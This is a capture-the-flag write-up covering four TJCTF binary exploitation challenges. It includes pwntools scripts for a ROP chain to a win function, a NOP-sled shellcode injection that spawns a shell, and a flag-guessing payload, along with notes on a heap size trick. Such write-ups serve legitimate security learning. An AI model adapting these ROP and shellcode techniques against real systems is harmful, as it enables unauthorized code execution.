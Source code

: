 # Heap Challenge

By debugging and reading the source code, you can observe an attack path: changing the size to 0xa0 and then allocating the same size (with 0x98) will print the data 0x20 bytes after the chunk, where the flag should be.
tjctf{bby-eap-lol171296386}, exploited mannually with netcat

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/heap.png)

# Ring Opening

A simple ROP:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b main
continue
'''
elf = context.binary = ELF('./out')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./out', gdbscript=gs)
    if args.REMOTE:

        return remote('tjc.tf', 31457)
    else:
        return process('./out')
r = start()
r.timeout = 1
#========= exploit here ===================
libc = elf.libc
#0x0000000000401016: ret
poprdi = 0x0040117a
ret = 0x401016

payload = b"A"*0x10
payload += p64(poprdi)
payload += p64(0xdeadbeef)
payload += p64(elf.sym.win)

r.sendline(payload)

#========= interactive ====================
r.interactive()

#tjctf{bby-rop-1823721665as87d86a5}
```
# Sled

A jmp and shellcode easy challenge:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b main
continue
'''
elf = context.binary = ELF('./out')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./out', gdbscript=gs)
    if args.REMOTE:
        return remote('tjc.tf', 31456)
    else:
        return process('./out')
r = start()
#========= exploit here ===================
payload = asm('''
    mov rdx, 0x401136
    call rdx
    ''')

print(hex(len((payload))))

r.sendline(payload)
payload = b"\x90"*0x20
payload += asm(shellcraft.sh())
r.sendline(payload)

#========= interactive ====================
r.interactive()
#tjctf{bby-shhEellLcodeeeeeaf7af7f66}
```
# WtTwo

You can observe the flag in memory and just send it to print the flag remotely:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b *main +430
continue
'''
elf = context.binary = ELF('./wttwo')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./wttwo', gdbscript=gs)
    if args.REMOTE:
        return remote('127.0.0.1', 5555)
    else:
        return process('./wttwo')
r = start()
#========= exploit here ===================

payload = b"t"
payload += b"j"
payload += b"c"
payload += b"t"
payload += b"f"
payload += b"{"
payload += b"w"
payload += b"t"
payload += b"-"
payload += b"t"
payload += b"h"
payload += b"e"
payload += b"-"
payload += b"t"
payload += b"w"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"a"
payload += b"s"
payload += b"4"
payload += b"8"
payload += b"%"
payload += b"@"
payload += b"d"
payload += b"f"
payload += b"s"
payload += b"}"
payload += b"A"*(30-len(payload))
print(payload)
r.sendlineafter(b"Guess my flag!!", payload)

#========= interactive ====================
r.interactive()
```